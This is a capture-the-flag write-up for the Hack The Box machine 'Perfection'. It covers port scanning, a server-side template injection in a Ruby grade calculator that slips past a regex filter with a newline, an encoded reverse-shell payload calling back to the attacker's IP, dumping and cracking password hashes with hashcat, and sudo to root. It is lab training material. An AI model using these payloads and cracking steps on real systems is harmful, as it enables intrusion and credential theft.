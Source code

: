 ```yaml
---
title: HTB - Perfection
date: 2024-07-07 00:00:00 + 1000
categories: [Web App, CTF,HTB]
tags: [htb,WebExploitation, SSTI, SQLite]
comments: false
---
```


The Perfection HTB easy rated-machine which involved exploiting a Server-Side Template Injection (SSTI) vulnerability in a web app to gain initial access as the "susan" user. Credentials were then cracked using Hashcat to gain root privileges via `sudo`

## Common Enumeration
### Namp

Running the `nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open` - Found two ports: SSH (port 22) and HTTP (port 80) and The HTTP service was running Nginx

```bash
$ nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 17:15 AEST
Nmap scan report for 10.10.11.253
Host is up (0.0059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

### Gobuster

Gobuster - Nothing interesting found 

```bash
$ gobuster dir -u http://10.10.11.253 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.253
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 3827]
/.                    (Status: 200) [Size: 3842]
Progress: 43007 / 43008 (100.00%)
===============================================================
Finished
===============================================================
```

### Web Reconnaissance

Browsing to the `http://10.10.11.253/` brings up a simple home page but then I noticed `/weighted-grade-calc`, a path that looked like a juicy target

![img](/assets/img/Perfection/1.webp)

The page mentioned it was powered by WEBrick 1.7.0, a Ruby web server. A quick Google search for "WEBrick vulnerabilities" turned up some interesting results. I found a known Server-Side Template Injection (SSTI) vulnerability in that version - [webrick vulnerabilities](https://security.snyk.io/package/rubygems/webrick)

![img](/assets/img/Perfection/2.webp)

I tried a few common SSTI payloads, but they were blocked

![img](/assets/img/Perfection/3.webp)

After a bit more digging, I stumbled upon a [technique for bypassing](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) regular expression checks, using a newline character (`%0A`). I tried it out, and... success!

![img](/assets/img/Perfection/4.webp)

## Shell as Susan

Now that I had a way to bypass the web app's defenses, I set up a listener on my machine, crafted a reverse shell payload, and injected it into the web app

```bash
a%0A<%25%3d+`echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkvMTMzNyAwPiYx|base64+-d|bash`+%25>
```

It worked! I had a shell as a user named "susan". It was a good start

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.253] 41800
bash: cannot set terminal process group (991): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
susan
bash-5.1$ 
```

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

user.txt

```test
b6958b4ef355e9f03c9594a65dafd1be
```

### Enumeration for Privilege Escalation

So looking at Susan's home directory I see two juicy folders: `Migration` and `ruby_app`

```bash
bash-5.1$ ls
Migration  ruby_app  user.txt
bash-5.1$ 
```

BAM! A SQLite database named `pupilpath_credentials.db`. This is looking promising

```bash
bash-5.1$ ls
pupilpath_credentials.db
bash-5.1$ 
```

I opened the database and found a hash, which looked like it might be a user password. I needed to crack it

```bash
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite> 
```

So I've uploaded and fired up `linpeas` and it spat out a juicy nugget: `/var/mail/susan`

```bash
bash-5.1$ pwd
/var/mail
bash-5.1$ ls
susan
bash-5.1$ cat susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
bash-5.1$ 
```

Alright, So I've got this password pattern: "{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}". Classic password pattern, easy for the user but ripe for cracking

```bash
$ hashcat -m 1400 hash -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

And there it is! `hashcat` spits out the password: `susan_nasus_413759210`
## Shell as root

I checked Susan's `sudo` configuration to see if she had any permissions to run commands as root

```bash
-bash-5.1$ sudo -l
Matching Defaults entries for susan on perfection:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
   (ALL : ALL) ALL
```

### ### Sudo to su

I used `sudo su` and I am in!

```bash
-bash-5.1$ sudo su
root@perfection:/home/susan# whoami
root
root@perfection:/home/susan# cat /root/root.txt 
d64491faf42d2eaebe64995eded12a46
root@perfection:/home/susan# 
```

root.txt

```text
d64491faf42d2eaebe64995eded12a46
```